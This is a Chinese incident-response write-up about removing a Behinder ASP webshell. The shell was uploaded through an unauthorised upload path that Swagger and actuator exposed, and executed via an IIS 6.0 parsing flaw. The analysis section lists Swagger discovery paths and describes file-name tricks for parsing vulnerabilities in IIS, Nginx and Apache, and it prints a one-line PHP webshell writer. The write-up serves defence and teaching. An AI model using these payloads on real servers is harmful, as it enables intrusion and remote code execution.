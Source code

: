 处置：
===

1、查看基本情况
--------

在态势感知上可以看到，文件上传的详细情况，并且已经被攻击者利用成功，攻击者上传的是一个cer的文件格式，通过畸形解析漏洞，成功利用，试了一下发现是个未授权访问的路径。  
![](https://shs3.b.qianxin.com/attack_forum/2022/01/attach-142e4c5f4c0f28b77e6473a9f0b219772edf2505.png)  
查看攻击者的ip，是一个动态的国外恶意ip，未能从ip中获取更多信息。  
![](https://shs3.b.qianxin.com/attack_forum/2022/01/attach-36361559d98b0631f027653a84cc1850f5933d18.png)  
征得客户同意后登上被攻击的那台服务器，查看木马文件，发现是个asp的冰蝎木马，将木马进行了删除操作，然后进行了一些排查防止攻击者做了一些后渗透的工作。  
![](https://shs3.b.qianxin.com/attack_forum/2022/01/attach-3cd3725d9161ff8e8cad873d30e2a589c35d05ae.png)

2、排查可疑项目
--------

1、首先查看一下服务器的基本情况，查看一下开放端口，是否打开了高危端口，比如3389等，万幸得是这台服务器并未开启远程桌面。

```php
查看端口开发情况：
netstat -ano 
查看某个端口是否开放：
netstat -ano|findstr "port"
```

2 、排查可疑账户，运行输入`lusrmgr.msc`查看本地用户和组，账号以$结尾的为隐藏账户，未发现有隐藏账户。  
![](https://shs3.b.qianxin.com/attack_forum/2022/01/attach-f96a2daf30027923eeebe6cce6e0a33b75a0577f.png)  
3、查看是否有可疑的计划任务，PowerShell输入`Get-ScheduledTask`查看所有的计划任务，未发现有可疑的计划任务。  
![](https://shs3.b.qianxin.com/attack_forum/2022/01/attach-2faa7311e66163c755fc80b48f18296bbe7241f1.png)  
4、查看是否有可疑的进程，PowerShell输入`tasklist`查看所有进程信息，也可以在任务管理器中查看，未发现有可疑的进程。  
![](https://shs3.b.qianxin.com/attack_forum/2022/01/attach-d808000adebac6daff182939462a59df0590fded.png)  
5、查看是否有可以文件，查看C盘符下的temp或tmp目录下是否有可疑文件，未发现可疑文件。  
![](https://shs3.b.qianxin.com/attack_forum/2022/01/attach-89e8dd7a7171e13107eddba03587e24439593968.png)  
6、利用d盾等工具查找webshell，未发现有其他的webshell。  
7、查找内存马，使用的工具有dumpit、redline、ram capturer等，未发现内存马

分析：
===

1、漏洞成因
------

万幸没有发现其他的入侵痕迹，只有一个冰蝎马，已经被删除了，那么攻击者是如何找到这个未授权的上传路径呢？路径不是寻常的路径，不太可能通过fuzz或者字典获取，第一时间想到的是源码泄漏。  
扫描网站的目录，未发现存在源码泄漏，又在github上进行了搜索，也没有源码，排除了源码泄漏。  
千思万想中，突然想到了会不会是swagger未授权访问泄漏接口呢，扫了一下旁站，果然发现了一个swagger未授权访问。  
![](https://shs3.b.qianxin.com/attack_forum/2022/01/attach-3052c7d065bb19393f21b94f4ff4623249f5c14d.png)

2、swagger未授权访问
--------------

swagger未授权访问存在于spring框架下，如果有swagger未授权一般还会有actuator未授权，试了一下果然存在。  
![](https://shs3.b.qianxin.com/attack_forum/2022/01/attach-9701bec8f4200253b03c2061e3f1be03df6c5067.png)  
swagger-ui.html会被禁止访问，这时候可以尝试拼接/v2/api-docs进行访问

```php
常见路径
/v2/api-docs
/swagger-ui.html
/swagger
/api/swagger
/Swagger/ui/index
/api/swaggerui
/swagger/ui
/api/swagger/ui
/api/swagger-ui.html
/user/swagger-ui.html
/libs/swaggerui
/swagger/index.html
/swagger-resources/configuration/ui
/swagger-resources/configuration/security
/api.html
/druid/index.html
/sw/swagger-ui.html
/api/swagger-ui.html
/template/swagger-ui.html
/spring-security-rest/api/swagger-ui.html
/spring-security-oauth-resource/swagger-ui.html
/swagger/v1/swagger.json
/swagger/v2/swagger.json
/api-docs
/api/doc
/docs/
/doc.html
/v1/api-docs
/v3/api-docs
```

使用try out按钮可以直接进行发包测试。  
![](https://shs3.b.qianxin.com/attack_forum/2022/01/attach-42ab5ef71d99a5db4f2c9d00193225a87cc7f815.png)

3、攻击复现
------

发现网站存在黑名单限制，成功上传cer格式文件，  
![](https://shs3.b.qianxin.com/attack_forum/2022/01/attach-474c157c7bd6895caabaaef51ac907a63a60debb.png)  
利用IIS6.0解析漏洞，成功连上马子。  
![](https://shs3.b.qianxin.com/attack_forum/2022/01/attach-f45b884b5acfaa2d809ed3c0a3ec89b44c336d3d.png)

4、解析漏洞
------

### 4.1、IIS 6.0解析漏洞

1.目录解析  
`/xx.asp/xx.jpg`  
.asp、.asa命名的文件夹下任何文件都被IIS当作asp文件来解析并执行。  
2.文件解析  
`xx.asp;.jpg`  
比如 1.asp;.jpg ，会被服务器看成是1.asp  
3.解析类型  
IIS6.0默认的可执行文件除了asp还包含

```php
/1.asa
/1.cer  这个就是攻击者成功利用的IIS6.0解析漏洞，成功上传shell
/1.cdx
```

### 4.2、IIS 7.0/IIS 7.5/ Nginx &lt;8.03畸形解析漏洞

在默认`Fast-CGI`开启状况下,攻击者上传一个名为1.jpg，内容为  
`<?PHP fputs(fopen('shell.php','w'),'<?php eval($_POST[cmd])?>');?>`  
的文件，然后访问`1.jpg/.php`,在这个目录下就会生成一句话木马 shell.php

### 4.3、Nginx &lt;8.03 空字节代码执行漏洞

影响版:`0.5.,0.6., 0.7 <= 0.7.65, 0.8 <= 0.8.37`

Nginx 环境下，上传图片马，然后访问`xxx.jpg%00.php`，执行其中的代码

### 4.4、Apache解析漏洞

上传的文件命名为：`test.php.x1.x2.x3`，Apache是从右往左判断后缀，如果为不可识别解析,就再往左判断  
比如 `1.php.rar``.rar`这种后缀是apache不可识别解析,apache就会把1.php.rar解析成php

修复：
===

配置策略
----

由于软件的修复需要一定时间，所以配置防火墙策略，禁止外网ip访问swagger目录和上传路径；

代码修复
----

在代码层面，将swagger、actuator和上传文件接口配置访问权限验证；  
![](https://shs3.b.qianxin.com/attack_forum/2022/01/attach-91e99b7b8e748df827b872ed42c2c9af2b17adb8.png)

总结：
===

当遇到类似的应急响应事件后，可以按照以下几个步骤进行处理：  
1、先对需要处理的事件现场情况进行详细的了解，与客户商量先将受害服务器进行断网关机处理，如果有主机安全管理设备，先对所有主机资产进行病毒查杀。  
2、先将木马文件、可疑文件保存本地，然后将服务器上的可疑文件进行清除。  
3、分析木马文件是哪种类型的木马，会造成什么危害，再做出下一步处置。  
4、排查服务器上的可疑项目，如文件排查、进程排查、内存排查等等，防止攻击者留下后门  
5、分析漏洞成因，然后先使用waf、防火墙等设备紧急修复漏洞，再等研发人员来彻底修复漏洞。